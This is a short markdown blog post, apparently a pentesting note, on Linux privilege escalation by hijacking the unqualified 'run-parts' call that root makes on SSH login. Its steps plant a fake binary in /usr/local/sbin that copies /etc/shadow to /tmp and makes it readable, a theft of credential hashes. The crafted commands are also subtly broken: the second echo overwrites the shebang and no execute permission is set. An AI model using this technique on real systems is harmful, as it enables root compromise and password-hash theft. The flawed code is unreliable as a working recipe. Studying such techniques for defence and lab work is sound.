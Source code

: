 ```yaml
---
layout: post
title: SSH run-parts
description: SSH run-parts
summary: SSH run-parts
tags: [linux,privesc]
minute: 1
---
```

## Overview
`run-parts` is being run by root whenever a successful ssh login completes. Attacker can crafyt a malicious `run-parts` binary if he can override system paths such as `/usr/local/sbin`.

This is a type of path injection attack.

## Steps
* Ensure you have write permission to `/usr/local/sbin`
* Use `pspy`  to monitor the process inside victim machine. Open another terminal and SSH to victim again.

```bash
$ ./pspy -f
[...redacted...]
2021/11/05 23:59:17 CMD: UID=0    PID=2090   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
[...redacted...]

# 2 things to notice:
#  - run-parts is not using full path
#  - it is running as UID=0 which is root
```

* Craft malicuous binary

```bash
echo '#!/bin/bash' > /usr/local/sbin/run-parts
echo 'cp /etc/shadow /tmp; chmod +r /tmp/shadow' > /usr/local/sbin/run-parts
```

* Try SSH login again. You should be able to read now the shadow file.

## Some takeways
Even on modern linux systems, `run-parts` still have this behaviour. As an example, here is what I saw from my kali machine.

```bash
➜  linux cat /etc/crontab | grep run-parts
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
➜  linux
```
